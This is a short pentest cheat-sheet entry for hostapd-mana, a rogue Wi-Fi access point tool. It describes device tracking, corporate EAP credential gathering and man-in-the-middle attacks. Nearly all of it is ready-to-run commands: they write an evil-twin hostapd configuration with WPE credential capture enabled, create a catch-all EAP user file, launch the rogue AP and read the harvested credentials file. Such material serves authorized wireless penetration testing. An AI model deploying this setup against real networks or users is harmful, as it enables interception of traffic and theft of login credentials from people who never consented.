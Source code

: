 # hostapd-mana
% wifi, hostapd-mana, Access Point, rogue AP, evil-twin
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
rogue wifi access point tool. It can be used for a myriad of purposes from tracking and deanonymising devices (aka Snoopy), gathering corporate credentials from devices attempting EAP (aka WPE) or attracting as many devices as possible to connect to perform MitM attacks.
```

## _repo
```
https://github.com/sensepost/hostapd-mana
```

## _doc
```
https://github.com/sensepost/hostapd-mana/wiki
```

## _install
```
```

## create conf
```bash
echo -e '# Interface configuration \n interface=<wlan_interface|wmon> \n ssid=<ssid> \n channel=<wlan_channel> \n auth_algs=3 \n wpa_key_mgmt=WPA-EAP \n wpa_pairwise=TKIP CCMP \n wpa=3 \n hw_mode=g \n ieee8021x=1 \n\n# EAP Configuration \n eap_server=1 \n eap_user_file=hostapd.eap_user \n\n# Mana Configuration \n enable_mana=1 \n mana_loud=1 \n mana_credout=credentials.creds \n mana_eapsuccess=1 \n mana_wpe=1 \n\n# Certificate Configuration \n ca_cert=ca.pem \n server_cert=server.pem \n private_key=server-key.pem \n dh_file=dh.pem' > hostapd.conf
```

## create eap_user
```bash
echo -e '* TTLS,PEAP,TLS,MD5,GTC\n"t" TTLS-PAP,GTC,TTLS-CHAP,TTLS-MSCHAP,TTLS-MSCHAPV2,MD5 "<challenge|challenge1234>" [2]' > hostapd.eap_user
```

## launch
```bash
sudo hostapd-mana hostapd.conf
```

## harvest
```bash
cat credentials.creds 
```